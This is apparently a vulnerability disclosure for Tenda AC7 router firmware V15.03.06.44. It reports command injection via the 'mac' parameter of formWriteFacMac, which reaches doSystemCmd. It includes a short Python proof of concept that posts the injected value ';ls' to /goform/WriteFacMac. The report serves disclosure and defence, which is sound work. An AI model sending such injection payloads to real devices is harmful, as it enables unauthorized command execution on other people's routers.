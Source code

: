 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `mac` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240318142324413](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318142324413.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";ls"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313164800839](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313164800839.png)
